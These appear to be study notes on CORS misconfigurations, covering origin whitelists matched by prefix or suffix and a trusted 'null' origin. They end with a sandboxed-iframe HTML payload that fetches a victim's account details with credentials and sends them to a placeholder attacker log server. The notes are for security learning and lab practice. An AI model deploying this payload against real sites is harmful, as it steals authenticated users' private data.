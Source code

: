 The app checks the supplied origin and if it is on the whitelist, it reflects it:

```html
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Some orgs allow access from all subdomains and some allow access from other orgs domains including their subdomains. Rules are often implemented by matching URL prefixes or suffixes or via regex. Suppose an app grants access to all domains ending in `normal-website.com`. 

An attacker can gain access by registering `hackernormal-website.com`. Or if an app supports all domains beginning with `normal-website.com` an attacker can register `normal-website.com.evil-user.net`.
# Trusted Null Origin

Origin header supports `null` value. Browsers can send null in various situations:

- Cross-origin redirects
- Requests from serialized data
- Request using the `file:` protocol
- Sandboxed cross-origin requests

The app may allow the "null" Origin to submit a cross-origin request and view the authenticated response.  Try submitting the following header:

```json
Origin: null
```

![[ACAO.png]]

This is possible because the app is returning the following headers in a response, which contains sensitive information about the logged in user:

```html
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

With these headers in the response, an attacker can host malicious code in their server that will submit a request to the vulnerable app and direct the authenticated response back to their server. 

The malicious code will be within an \<iframe> that will cause the browser to set the Origin header to "null". The attacker now needs to trick the victim user into visiting their website while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

Some payloads work, some don't:

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```
